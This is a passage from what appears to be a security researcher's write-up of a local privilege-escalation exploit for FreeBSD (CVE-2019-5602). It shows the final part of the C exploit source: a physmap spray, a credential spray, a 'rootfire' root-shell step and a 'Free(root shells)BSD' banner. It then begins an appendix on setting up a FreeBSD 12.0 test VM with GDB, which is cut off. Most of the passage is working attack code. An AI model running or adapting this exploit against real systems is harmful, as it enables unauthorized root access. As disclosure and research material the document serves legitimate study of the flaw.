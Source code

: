 ```c
      munmap(phys_big[i], FREE_PAGE_SIZE);
      phys_big[i] = 0;
      break;
    }
  }
  if(ex == 0) {
    printf("[-] Failed to find target mapping, bye ..\n");
    cleanup();
  }

  pwn_ctx->spray = 1;
  while(pwn_ctx->init != 0)
    sleep(1);
  printf("[+] Cred spray completed...\n");
  rootfire();
}

void exploit()
{
  physmap_spray(FREE_PAGE_ROUNDS);  
}

void banner()
{
  printf("\n[ ]-----------------PWN-----(CYCURA)-------[ ]\n");
  printf("Free(root shells)BSD - CVE-2019-5602 Exploit\n");
  printf("KASLR is for the 1\%%");
  printf("\n[ ]----------------START-------------------[ ]\n");
}

int main(int argc, char **argv)
{
  banner();
  set_fd();
  set_ctx();
  exploit();
  return 0;
}
```

# Appendix 
# Setup in VMWare with GDB
Download https://download.freebsd.org/ftp/releases/amd64/amd64/ISO-IMAGES/12.0/FreeBSD-12.0-RELEASE-amd64-dvd1.iso
* Install normally, add a normal user.
* Give normal user some rights: `pw usermod <user> -G operator,wheel`
* Build custom kernel (not needed if you choose debug kernel when installing FreeBSD) otherwise do this:
* `cd /usr/src && make clean`
* edit `/usr/src/sys/amd64/conf/GENERIC` so the start of the file looks as: 
